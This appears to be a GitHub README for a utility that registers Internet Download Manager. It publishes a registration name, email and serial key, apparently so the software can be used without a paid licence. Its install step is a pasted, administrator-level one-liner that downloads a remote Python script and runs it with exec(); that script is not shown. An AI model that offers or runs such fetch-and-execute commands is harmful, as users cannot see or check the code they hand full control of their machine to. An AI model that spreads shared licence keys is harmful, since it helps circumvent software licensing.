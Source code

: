 <h1 style="margin-left: 20px;">IDM Registration Utility (idman641, Build 18, Latest Version)</h1>

Welcome to my IDM repository! This IDM is not a cracked or unofficial version, it just registers IDM with a valid key that has been purchased!
Crack and Unofficial versions contain Viruses and trojans, you can download the official IDM and register it via this py script.
<img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/idm.png" alt="IDM Logo" width="20" height="18">
## Additional Resources
- If you have any concerns about the IDM Utility, you can use [VirusTotal](https://www.virustotal.com) to scan the executable file for peace of mind. 
<br>
Here's the Report <br>
<a href="https://www.virustotal.com/gui/file/6ee0630168046a59382c17cc230cf667853858b6a1fc848b3dd118869f729cdf" target="_blank">
  <img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/Virustotal_logo_pixelalign.png" alt="IDM Logo" width="200" height="60">
</a>


You can find resources in the resources folder.


## Screenshots
Here's a screenshot of what the Registered IDM looks like:
![IDM Screenshot](https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/image.png)

## How to Use
1. Install Python on your device.
2. Install IDM letest version form their website.
3. Copy this command, and past it on cmd (Administration required)
```python
pip install requests psutil && python -c "import requests, psutil; exec(requests.get('https://raw.githubusercontent.com/musaalif6969/IDM-Registration-Utility/main/main.py').text)"



```
4. You are good to go!

---

## Additional Info
Do not use it manually!

```ini
; First Name
[FName]="Musa"

; Installation Status
[InstallStatus]=dword:00000003

; Last Name
[LName]="Alif"

; Email Address
[Email]="musaalif007@gmail.com"

; Serial Key
[Serial]="HE3TB-8J3SY-FP9SC-6RKR2"
```
